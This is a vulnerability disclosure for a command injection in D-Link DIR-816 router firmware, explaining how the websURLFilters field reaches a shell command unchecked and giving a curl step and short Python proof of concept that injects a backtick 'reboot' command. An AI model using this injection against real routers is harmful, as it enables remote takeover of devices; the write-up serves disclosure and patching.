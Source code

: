 ## DIR-816 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

### Affected version

D-Link DIR-816  A2V1.1.0B05 was found to contain a command injection in `iptablesWebsFilterRun` of the component Web Interface, which allows remote attackers to execute arbitrary commands via shell.

![image-20250310195139787](./img/1.png)

### Vulnerability details

Vulnerability occurs in `iptablesWebsFilterRun`. Attackers can control `v0` by setting the `websURLFilters`. The program then pass its value to `v12`, and call system function `iptabels` without any check.

```
v0 = nvram_bufget(0, "websURLFilters");
NthValueSafe = getNthValueSafe(v7++, v0, 59, v12, 256);
doSystem("iptables ‐A web_filter ‐p tcp ‐m tcp ‐m webstr ‐‐url %s ‐j REJECT ‐‐reject‐with tcp‐reset", v12);
```

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by access `/goform/websHostFilterDelete` to call this function.

### EXP

First, attackers need to get the token ID.

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then, run exp.

```
import requests

tokenid = ''

url = 'http://192.168.0.1/goform/websHostFilterDelete'

data = {
    'tokenid': tokenid,
    'websURLFilters': `reboot`
}

r = requests.post(url, data)
```
